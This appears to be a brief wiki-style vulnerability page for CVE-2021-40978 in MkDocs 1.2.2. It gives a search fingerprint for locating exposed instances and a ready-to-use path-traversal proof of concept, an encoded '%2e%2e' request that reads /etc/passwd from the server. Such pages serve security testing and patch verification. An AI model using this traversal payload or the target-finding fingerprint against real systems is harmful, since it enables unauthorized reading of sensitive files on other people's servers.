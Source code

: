 # MKdocs arbitrary file reading vulnerability CVE-2021-40978

## Vulnerability Description

In MKdocs, traversing the directory through %2e%2e and reading sensitive files

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Mkdocs 1.2.2</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="My Docs"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635243987958-b04a962a-3cd6-44d6-b422-384fbae3be46.png)

Verify POC

```php
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635244110624-38dc3b57-ca8d-4fa1-b073-73b059a6d4be.png)